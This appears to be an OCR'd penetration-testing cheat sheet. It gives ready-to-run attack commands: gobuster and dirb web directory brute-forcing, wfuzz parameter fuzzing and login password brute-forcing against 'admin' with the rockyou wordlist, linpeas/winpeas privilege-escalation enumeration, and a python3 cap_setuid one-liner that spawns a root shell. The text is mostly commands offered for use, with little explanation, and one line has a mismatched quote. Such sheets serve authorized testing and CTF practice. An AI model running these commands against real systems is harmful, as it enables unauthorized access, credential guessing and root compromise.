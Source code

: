 ## bruteforce webdirectories and files by extention
- `gobuster dir -u http://target-ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -x php,txt,html,cgi,sh,bak,aspx -t 30 -o gobuster.192.168.0.1.txt`
- `dirb http://192.168.205.249:8000 -N 403'
---

# wfuzz
- service: http
- tactics: enumeration

## bruteforce web parameter
- `wfuzz -u http://target-ip/path/index.php?param=FUZZ -w /usr/share/wordlists/rockyou.txt`

## bruteforce post data (login)
- `wfuzz -u http://target-ip/path/index.php?action=authenticate -d 'username=admin&password=FUZZ' -w /usr/share/wordlists/rockyou.txt`

---

# peass - privilege escalation awesome scripts suite
- service: windows
- service: linux
- tactics: enumeration

## very easy to use on linux
- `./linpeas.sh`

## windows has multiple versions
- `winpeasx64.exe`
- `winpeasx86.exe`
- `winpeas.bat`

---

# capabilities
- service: linux
- tactics: privilege_escalation

```
# Check the links at the bottom for more examples and explanation
```
## exploit `cap_setuid` capability on python3 to gain a local root-shell
- `python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'`

---